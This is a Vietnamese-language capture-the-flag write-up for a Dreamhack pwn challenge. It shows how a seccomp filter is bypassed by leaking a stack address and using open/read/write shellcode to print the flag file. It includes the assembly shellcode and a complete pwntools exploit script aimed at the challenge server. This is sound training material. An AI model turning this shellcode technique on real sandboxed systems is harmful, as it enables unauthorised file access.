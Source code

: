 # Decription

[![](images/decription.png)](https://dreamhack.io/wargame/challenges/2076)

# Source

![](images/main.png)

# Problem

Trong hàm main ta thấy có 5 seccomp rule được thêm.

Sử dụng seccomp-tools để biết rõ hơn về các syscall được phép.

![](images/seccomp.png)

Ta thấy rằng được phép read, write và exit.

open chỉ được phép khi filename thỏa mãn địa chỉ. Khả năng đó chính là địa chỉ flag.

Vậy ta sẽ lợi dụng shellcode để lấy flag.

# Solve

Mở gdb và đặt breakpoint

```c
gef➤  checksec
[+] checksec for '/home/long/Downloads/dreamhack/pwn/passfor/main'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

Xem trong main ta thấy shellcode được thực thi trong rdx

```c
   0x0000000000001402 <+473>:   mov    rdx,QWORD PTR [rbp-0x30]
   0x0000000000001406 <+477>:   mov    eax,0x0
   0x000000000000140b <+482>:   call   rdx
```

Tôi chạy seccomp-tools nhiều lần và nhận ra rằng 12bits cuối của địa chỉ filename không thay đổi là 030. Việc chúng ta cần làm là leak địa chỉ trong cùng vùng nhớ với filename để tính offset.


Ý tưởng là in ra 1 lượng lớn bytes trên stack và nhận lại địa chỉ cùng vùng nhớ với filename. Sau đó ta nhập địa chỉ filename lên stack và nội dung là flag.txt. Sau đó open->read-> write.

```c
    mov rax, 0x1
    mov rsi, rsp
    mov rdi, 1
    mov rdx, 0x100
    syscall
```

![](images/exeleak.png)

Tôi nhận được 6 bytes exe leak được. Thật may mắn vì có 1 addresss có 12 bits cuối là 030 và 16 bits đầu là 5643. Khá là giống với những seccomp tôi đã chạy. ( hãy chạy seccomp nhiều lần để thấy nó có quy luật như vậy).

Tôi nghĩ đó chính là filename mà tôi cần tìm.

Vậy tiếp theo chúng ta cần nhập filename lên stack và cho nó trỏ vào flag.txt. Vì chúng ta cần làm là open filename rồi read sau đó write.

```c
// Nhập địa chỉ filename
    mov rax, 0x0
    mov rdi, 0
    mov rdx, 0x100
    mov rsi, rsp
    syscall

//Nhập flag.txt vào con trỏ của filename
    mov rax, 0x0
    mov rdi, 0
    mov rdx, 0x100
    mov rsi, [rsp]
    syscall
    
// open flag.txt
    mov rax, 0x2
    mov rdi, [rsp]
    xor rsi, rsi
    xor rdx, rdx
    syscall
//read flag.txt
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 0x100
    xor rax, rax
    syscall
//write flag
    mov rdi, 1
    mov rsi, rsp
    mov rdx, 0x100
    mov rax, 1
    syscall
```

![](images/flag.png)


# Full Script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('main', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
b* main+165
b* main+473
b* main+482
        c
        ''')
        input()

if args.REMOTE:
    p = remote('host8.dreamhack.games', 11819)
else:
    p = process([exe.path])
GDB()



shellcode = asm('''

    mov rax, 0x1
    mov rsi, rsp
    mov rdi, 1
    mov rdx, 0x100
    syscall

    mov rax, 0x0
    mov rdi, 0
    mov rdx, 0x100
    mov rsi, rsp
    syscall

    mov rax, 0x0
    mov rdi, 0
    mov rdx, 0x100
    mov rsi, [rsp]
    syscall

    mov rax, 0x2
    mov rdi, [rsp]
    xor rsi, rsi
    xor rdx, rdx
    syscall

    mov rdi, rax
    mov rsi, rsp
    mov rdx, 0x100
    xor rax, rax
    syscall

    mov rdi, 1
    mov rsi, rsp
    mov rdx, 0x100
    mov rax, 1
    syscall


''')

sla(b'spell > ', shellcode)
p.recv(23)
p.recv(48)
filename =u64(p.recv(6)+ b'\x00\x00')
print(hex(filename))


sl(p64(filename))
# input('Flag')
s(b'flag.txt')
p.interactive()
```



